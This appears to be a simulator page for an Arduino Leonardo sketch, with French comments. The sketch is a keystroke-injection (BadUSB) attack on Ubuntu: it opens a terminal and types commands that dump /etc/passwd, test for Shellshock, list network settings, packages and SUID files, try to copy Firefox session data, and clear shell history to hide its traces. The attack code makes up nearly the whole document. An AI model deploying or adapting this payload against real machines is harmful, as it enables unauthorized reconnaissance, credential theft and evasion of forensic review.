
A sketch run on a simulated Arduino Leonardo, built with avr-gcc and run on an emulated ATmega32U4. On the bench: output pins drawn as LEDs (lit = HIGH). USB keyboard and mouse output is not drawn.

Above: at 0.1 s.
At 5.1 s:

Timing chart, 0 to 12.2 s (numbered marks = the images above):


The sketch:

Basic_Term_last.ino
```cpp
/*
 *  Ce fichier contient un code pour la récupération des données sous Linux Ubuntu 18.04.2 LTS
 *  Types des données :
 *  - Mots de passe
 *  - Information sur le système
 *  - Identifiants et mots de passe stockés dans Mozilla Firefox(Facultatif)
*/
#include <Keyboard.h>
// Teensy 2.0 has the LED on pin 11
// Teensy++ 2.0 has the LED on pin 6
// Teensy 3.x / Teensy LC have the LED on pin 13
const int ledPin = 13;

// Cette fonction sert pour la récupération des informations sur le système
void gathering(){

  Keyboard.print("echo 'Logged in user: ' $USER > info_gathering.txt \n");
  delay(1000);
  Keyboard.print("echo -n 'Distribution Kernel Version: ' >> info_gathering.txt \n");
  delay(1000);
  Keyboard.print("cat /etc/issue | cut -c1-13 >> info_gathering.txt \n");
  delay(1000);
  Keyboard.print("echo -n 'uname results: ' >> info_gathering.txt \n");
  delay(1000);
  Keyboard.print("uname -a >> info_gathering.txt  \n");
  delay(1000);
  Keyboard.print("echo 'Shellsock Bug Vulnerability: ' >> info_gathering.txt \n");
  delay(1000);
  Keyboard.print("env x='() { :;}; echo vulnerable' bash -c 'echo this is a test' >> info_gathering.txt \n");
  delay(1000);
  Keyboard.print("echo 'Mounted filesystems: ' >> info_gathering.txt \n");
  delay(1000);
  Keyboard.print("mount -l >> info_gathering.txt  \n");
  delay(6000);
  Keyboard.print("echo 'Network Configuration:' >> info_gathering.txt \n");
  delay(1000);
  Keyboard.print("ifconfig -a | grep 'Link\|inet' >> info_gathering.txt \n");
  delay(1000);
  Keyboard.print("echo 'Print Hosts: ' >> info_gathering.txt \n");
  delay(1000);
  Keyboard.print("cat /etc/hosts >> info_gathering.txt \n");
  delay(1000);
  Keyboard.print("echo 'Print ARP: ' >> info_gathering.txt \n");
  delay(1000);
  Keyboard.print("arp >> info_gathering.txt \n");
  delay(1000);
  Keyboard.print("echo 'Development tools availability: ' >> info_gathering.txt \n");
  delay(1000);
  Keyboard.print("which gcc >> info_gathering.txt \n");
  delay(1000);
  Keyboard.print("which python >> info_gathering.txt  \n");
  delay(1000);
  Keyboard.print("echo 'Print TCP/UDP Listening Services: ' >> info_gathering.txt \n");
  delay(1000);
  Keyboard.print("netstat -tunlpe >> info_gathering.txt \n");
  delay(1000);
  Keyboard.print("echo 'Installed Packages: ' >> info_gathering.txt \n");
  delay(1000);
  Keyboard.print("dpkg -l >> info_gathering.txt \n");
  delay(1000);
  Keyboard.print("echo 'Find Readable Folders in /etc: ' >> info_gathering.txt \n");
  delay(1000);
  Keyboard.print("find /etc -user $(id -u) -perm -u=r -o -group $(id -g) -perm -g=r -o -perm -o=r -ls 2> /dev/null >> info_gathering.txt \n");
  delay(5000);
  Keyboard.print("echo 'Find SUID and GUID files' >> info_gathering.txt \n");
  delay(1000);
  Keyboard.print("find / -type f -perm -u=s -o -type f -perm -g=s -ls  2> /dev/null >> info_gathering.txt  \n");
  delay(5000);
  Keyboard.print("cat info_gathering.txt \n");
  delay(5000);
  //Supprimer l'historique des commandes
  Keyboard.print("history -c \n");
  delay(1000);
  }

//Fonction pour la récupération des mots de passe dans Firefox
void info_firefox(){
  Keyboard.print("firefox\n");
  delay(15000);
  Keyboard.print("about:preferences#privacy");
  delay(3000);
  Keyboard.press(KEY_ENTER);
  //delay(1000);
  Keyboard.releaseAll();
  //delay(1000);
  Keyboard.print("saved logins");
  delay(1000);
  //Keyboard.press(KEY_ENTER);
  //delay(1000);
  //Keyboard.releaseAll();
  //Keyboard.press(KEY_TAB);
  //delay(1000);
  //Keyboard.releaseAll();
  /*
  for(int i=0; i<4; i++){
    Keyboard.press(KEY_TAB);
    delay(1000);
    Keyboard.releaseAll();
  }*/
  //delay(300);
  //Keyboard.press(KEY_ENTER);
  //delay(500);
 // Keyboard.releaseAll();
  //delay(100);
  //Récupération des données depuis le terminal
  Keyboard.print("cd ~/.mozilla/firefox/so81oktj.default");
  delay(1000);
  Keyboard.print("cat sessionstore.jsonlz4 >> logs_firefow.txt\n");
  delay(1000);
  }

void setup() {
  // initialize the digital pin as an output.
  pinMode(ledPin, OUTPUT);
  Serial.begin(9600); // USB is always 12 Mbit/sec
  Keyboard.begin();

  //loop
  delay(5000);
  digitalWrite(ledPin, HIGH);
  delay(2000);
  //Ouvrir le terminal
  Keyboard.press(KEY_LEFT_CTRL);
  Keyboard.press(KEY_LEFT_ALT);
  Keyboard.press('t');
  delay(100);
  Keyboard.releaseAll();
  delay(100);
  // Récupération des mots de passe et l'utilisateur courant
  Keyboard.print("id \n");
  delay(1000);
  Keyboard.print("echo 'Logged in user: ' $USER >> logs_linux.txt \n");
  delay(1000);
  Keyboard.print("cat /etc/passwd >> logs_linux.txt\n");
  delay(1000);
  Keyboard.print("cat logs_linux.txt\n");
  delay(300);
  //Appel de la fonction gathering
  //gathering();
  //Supprimer l'historique des commandes
  Keyboard.print("history -c \n");
  digitalWrite(ledPin, LOW);
  delay(1000);
  Keyboard.end();
}

// the loop() method runs over and over again,
// as long as the board has power
//int number = 1234;
void loop(){
  }
```
